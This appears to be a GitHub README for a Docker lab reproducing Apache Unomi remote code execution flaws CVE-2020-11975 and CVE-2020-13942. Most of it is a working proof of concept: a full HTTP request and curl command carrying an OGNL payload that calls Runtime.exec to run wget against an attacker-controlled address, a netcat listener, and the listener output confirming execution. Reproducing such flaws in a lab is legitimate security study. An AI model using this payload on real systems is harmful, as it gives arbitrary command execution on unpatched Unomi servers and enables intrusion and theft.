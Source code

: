 # Unomi Enviroment for CVE-2020-11975 & CVE-2020-13942

[Apache Unomi](https://unomi.apache.org/) allows conditions to use OGNL scripting which offers the possibility to call static Java classes from the JDK that could execute code with the permission level of the running Java process.

## Affected Version

|      CVE     | Range |
|--------------|-----------|
| CVE-2020-11975 | <= 1.5.0 |
| CVE-2020-13942 | <= 1.5.1 |

## Usage

Run following command to startup the apache unomi 1.5.0

```bash
docker-compose up
```

### Poc of CVE-2020-11975

After start the `unomi`, listenning on port `8000` with following command

```bash
nc -llv 8000
```

Send the request below with Burp Suite

> Remeber to replace the ip address `{your ip address}` with yourself, on my device it's `192.168.1.111`.

```http
POST /context.json HTTP/1.1
Host: localhost:8181
Connection: close
Content-Type: application/json
Content-Length: 1527


{
    "source": null,
    "requireSegments": false,
    "requiredProfileProperties": null,
    "requiredSessionProperties": null,
    "events": null,
    "filters": null,
    "personalizations": [
        {
            "id": "gender-test",
            "strategy": "matching-first",
            "strategyOptions": {
                "fallback": "var2"
            },
            "contents": [
                {
                    "id": "var1",
                    "filters": [
                        {
                            "appliesOn": null,
                            "condition": {
                                "parameterValues": {
                                    "propertyName": "(#r=@java.lang.Runtime@getRuntime()).(#r.exec(\"wget http://{your ip address}:8000\"))",
                                    "comparisonOperator": "equals",
                                    "propertyValue": "male"
                                },
                                "type": "profilePropertyCondition"
                            },
                            "properties": null
                        }
                    ],
                    "properties": null
                },
                {
                    "id": "var2",
                    "filters": null,
                    "properties": null
                }
            ]
        }
    ],
    "profileOverrides": null,
    "sessionPropertiesOverrides": null,
    "sessionId": "demo-session-id"
}
```

or use curl

```bash
curl --location --request POST 'http://localhost:8181/cxs/context.json' \
--header 'Content-Type: application/json' \
--header 'Cookie: JSESSIONID=48C8AFB3E18B8E3C93C2F4D5B7BD43B7; context-profile-id=01060c4c-a055-4c8f-9692-8a699d0c434a' \
--data-raw '{
    "source": null,
    "requireSegments": false,
    "requiredProfileProperties": null,
    "requiredSessionProperties": null,
    "events": null,
    "filters": null,
    "personalizations": [
        {
            "id": "gender-test",
            "strategy": "matching-first",
            "strategyOptions": {
                "fallback": "var2"
            },
            "contents": [
                {
                    "id": "var1",
                    "filters": [
                        {
                            "appliesOn": null,
                            "condition": {
                                "parameterValues": {
                                    "propertyName": "(#r=@java.lang.Runtime@getRuntime()).(#r.exec(\"wget http://{your ip address}:8000\"))",
                                    "comparisonOperator": "equals",
                                    "propertyValue": "male"
                                },
                                "type": "profilePropertyCondition"
                            },
                            "properties": null
                        }
                    ],
                    "properties": null
                },
                {
                    "id": "var2",
                    "filters": null,
                    "properties": null
                }
            ]
        }
    ],
    "profileOverrides": null,
    "sessionPropertiesOverrides": null,
    "sessionId": "demo-session-id"
}'
```

And you will see the feedback from container.

```
$ nc -llv 8000         
GET / HTTP/1.1
User-Agent: Wget/1.21
Accept: */*
Accept-Encoding: identity
Host: 192.168.1.111:8000
Connection: Keep-Alive
```

### Debug with Container

The contianer has exposed the debug port on `5005`, you can clone [unomi] and checkout to the tag `unomi-root-1.5.0` with

```bash
git clone https://github.com/apache/unomi.git && cd unomi && git checkout unomi-root-1.5.0
```

Suppose we open with idea, choose `Add Configuration -> Add Remote JVM Debug -> ok`.

Now you can debug as your want.